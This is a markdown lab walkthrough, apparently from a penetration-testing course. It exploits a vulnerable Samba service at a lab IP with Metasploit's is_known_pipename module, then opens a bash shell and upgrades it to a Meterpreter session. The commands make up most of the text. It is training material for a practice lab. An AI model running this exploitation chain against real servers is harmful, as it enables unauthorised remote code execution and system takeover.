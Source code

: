 # 🔬Samba - MSF Exploit

## Lab 1

>  🔬 [Vulnerable File Sharing Service](https://www.attackdefense.com/challengedetails?cid=178)
>
>  - Target IP: `192.234.251.3`
>  - Exploit the target with the appropriate Metasploit Framework module
>  - [Samba 3.5.0 - Remote Code Execution](https://www.exploit-db.com/exploits/42060)

```bash
ip -br -c a
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 192.234.251.3
setg RHOST 192.234.251.3
workspace -a samba3.5.0
```

- Perform an `nmap` scan directly into MSF

```bash
db_nmap -sS -sV -O 192.234.251.3
```

![db_nmap -sS -sV -O 192.234.251.3](3-metasploitassets/image-20230416132052860.png)

```bash
search type:exploit name:samba
use exploit/linux/samba/is_known_pipename
info
# Description:
#   This module triggers an arbitrary shared library load vulnerability 
#   in Samba versions 3.5.0 to 4.4.14, 4.5.10, and 4.6.4. This module 
#   requires valid credentials, a writeable folder in an accessible 
#   share, and knowledge of the server-side path of the writeable 
#   folder. In some cases, anonymous access combined with common 
#   filesystem locations can be used to automatically exploit this 
#   vulnerability.
options
check
run
```

```bash
/bin/bash -i
```

![Metasploit - exploit/linux/samba/is_known_pipename](3-metasploitassets/image-20230416132216493.png)

- Shell to `Meterpreter` post exploitation

```bash
background # or CTRL+Z
sessions
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
set SESSION 1
set LHOST eth1
run

sessions
sessions 2
```

![shell_to_meterpreter](3-metasploitassets/image-20230416132513575.png)

------


